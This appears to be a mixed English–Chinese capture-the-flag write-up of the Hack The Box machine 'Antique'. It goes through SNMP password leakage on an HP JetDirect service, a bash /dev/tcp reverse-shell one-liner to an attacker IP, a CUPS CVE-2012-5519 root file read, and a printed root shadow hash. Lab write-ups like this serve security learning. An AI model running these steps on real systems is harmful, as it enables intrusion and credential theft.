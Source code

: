1, enumerate the ports (nmap)
23/tcp telnet

2, check telnet service 
	`telnet 10.10.11.107`
not surprised: it needs auths
but it give us some messages:
	`HP JetDirect`
HP JetDirect 是惠普公司开发的一系列网络打印服务器和网络接口卡，用于将打印机直接连接到计算机网络中。这使得多台计算机可以通过网络共享打印机资源。JetDirect 设备支持多种网络协议，并且可以通过浏览器进行配置和管理

let's check some cve about it.

"HP JetDirect Printer - SNMP JetAdmin Device Password Disclosure"
https://www.exploit-db.com/exploits/22319

Given the last of any other paths on TCP, I’ll check back to a UDP scan. Scanning for UDP can be both slow and unreliable. I do find -sV to make the results more reliable (and probably slower), but even just looking a the top ten ports finds something interesting on Antique:
考虑到 TCP 上的最后一个其他路径，我将检查 UDP 扫描。扫描 UDP 可能既缓慢又不可靠。我确实发现 -sV 可以使结果更可靠（并且可能更慢），但即使只是查看前十个端口，也会在 Antique 上发现一些有趣的东西：

![[Pasted image 20240723104024.png]]
There we can see snmp open !
Let's exploit it.

Running snmpwalk on Antique will only return one entry:
	`snmpwalk -v 2c -c public 10.10.11.107`

these are hex representations of each byte. I’ll recognize that the numbers at the start of the list are in the hex ASCII range (0x20 - 0x7e), even if that ones at the end don’t make sense in that context.
![[Pasted image 20240723104420.png]]

try to use python to convert it to ASCII code.

	` nums = "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135"`
	`nums.split()`
	
I’ll use a Python list comprehension to loop over each item and apply the int function, converting each to a number, using base 16 to convert from hex
	`[int(x, 16) for x in nums.split()]`

Now I’ll want each converted to an ASCII character using chr:
	`[chr(int(x, 16)) for x in nums.split()]`
	`''.join([chr(int(x, 16)) for x in nums.split()])`

Finally, we get a maybe liked password:
"P@ssw0rd@123!!123"

And we successfully login !

3, get shell as user
when we press '?'
it would tell us we have get the ability to exec.(good news)

But when we want to make the reverse shell, it did not work.
So we have to find some trick skills to exec it.
Firstly we need check its terminal :
	`exec which bash`
Then we can try :
	`exec bash -c 'bash -i >& /dev/tcp/10.10.16.12/4444 0>&1'`
then shell got it.

4, Privilege Escalation
By using pspy64, we have known telnet.py is powerd by root
So it would be a interesting exploition of root

And we can check other ports.
	`netstat -tnlp`
tcp  127.0.0.1:631 
it is attactive for me, so let's curl it and check it.
	`<TITLE>Home - CUPS 1.6.1</TITLE>`
Let's search about it.

cups-root-file-read.sh | CVE-2012-5519
https://github.com/p1ckzi/CVE-2012-5519.git

we can use it get /etc/shadow or just directly to /root/root.txt
`root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::`


